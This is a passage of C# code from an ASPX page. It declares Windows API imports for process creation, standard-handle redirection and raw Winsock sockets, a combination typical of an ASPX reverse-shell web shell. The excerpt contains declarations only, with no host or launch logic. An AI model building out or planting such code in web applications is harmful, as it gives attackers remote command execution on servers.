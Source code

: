 ```aspx
        public IntPtr lpSecurityDescriptor;
        public bool bInheritHandle;
    }
    
    
    [DllImport("kernel32.dll")]
    static extern bool CreateProcess(string lpApplicationName,
       string lpCommandLine, ref SECURITY_ATTRIBUTES lpProcessAttributes,
       ref SECURITY_ATTRIBUTES lpThreadAttributes, bool bInheritHandles,
       uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory,
       [In] ref STARTUPINFO lpStartupInfo,
       out PROCESS_INFORMATION lpProcessInformation);

    public static uint INFINITE = 0xFFFFFFFF;
    
    [DllImport("kernel32", SetLastError = true, ExactSpelling = true)]
    internal static extern Int32 WaitForSingleObject(IntPtr handle, Int32 milliseconds);

    internal struct sockaddr_in
    {
        public short sin_family;
        public short sin_port;
        public int sin_addr;
        public long sin_zero;
    }

    [DllImport("kernel32.dll")]
    static extern IntPtr GetStdHandle(int nStdHandle);

    [DllImport("kernel32.dll")]
    static extern bool SetStdHandle(int nStdHandle, IntPtr hHandle);

    public const int STD_INPUT_HANDLE = -10;
    public const int STD_OUTPUT_HANDLE = -11;
    public const int STD_ERROR_HANDLE = -12;
    
    [DllImport("kernel32")]
    static extern bool AllocConsole();


    [DllImport("WS2_32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
    internal static extern IntPtr WSASocket([In] AddressFamily addressFamily,
                                            [In] SocketType socketType,
                                            [In] ProtocolType protocolType,
                                            [In] IntPtr protocolInfo, 
                                            [In] uint group,
                                            [In] int flags
                                            );

    [DllImport("WS2_32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
    internal static extern int inet_addr([In] string cp);
    [DllImport("ws2_32.dll")]
    private static extern string inet_ntoa(uint ip);

    [DllImport("ws2_32.dll")]
    private static extern uint htonl(uint ip);
    
    [DllImport("ws2_32.dll")]
    private static extern uint ntohl(uint ip);
    
    [DllImport("ws2_32.dll")]
    private static extern ushort htons(ushort ip);
    
```